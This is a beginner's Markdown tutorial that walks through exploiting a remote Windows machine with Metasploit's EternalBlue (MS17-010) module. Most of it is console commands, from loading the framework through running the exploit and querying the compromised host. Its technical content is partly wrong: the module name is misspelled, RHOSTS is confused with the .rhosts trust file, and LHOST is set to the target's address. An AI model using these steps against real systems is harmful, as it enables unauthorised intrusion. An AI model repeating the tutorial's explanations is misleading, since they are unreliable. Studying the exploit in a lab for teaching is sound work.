

# Eternal blue exploit with metasploit
## by Austin Terranova

<dl>
    <dt>Purpose of tutorial:</dt>
    <dd>The purpose of this tutorial is to gain understanding of a simple exploit with metasplot. </dd>
</dl>

<dl>
    <dt>Target audience:</dt>
    <dd>The target audience for this tutorial would be a beginner student interested in the offensive side of cyber security</dd>
</dl>

<dl>
    <dt>Requirements:</dt>
    <dd>Windows 7 with metasploit installed</dd>
</dl>

The first thing to do is open up the command line on your PC and type the following command Which is used to which is used to load the metasploit framework
###### msfconsole

Once the metasploit framework is loaded we will use the command to search the metasploit framework for the exploit we want to use
###### search eternalblue

assuming our target is vulnerable to this exploit we will choose to use the exploit
###### use exploit/windows/smb/ms17_010_eternalbue

Next we will run the option command to view our current settings

###### options
We then set the rhosts the rhosts is a file that defines what remote hosts can use certain commands without a password for this you would use your targets IP address without the brackets
###### set rhosts [target_IP_address]
This is the IP address we want our listener to bind to 
###### set lhost [target_IP_address]
This is the port that we want our listener to bind to
###### set lport [4321]

now lets run our exploit to see if we were able to exploit the target IP
###### run

After you run the exploit to check and see if it worked you will run the sysinfo command which will be the information of the exploited machine
###### sysinfo

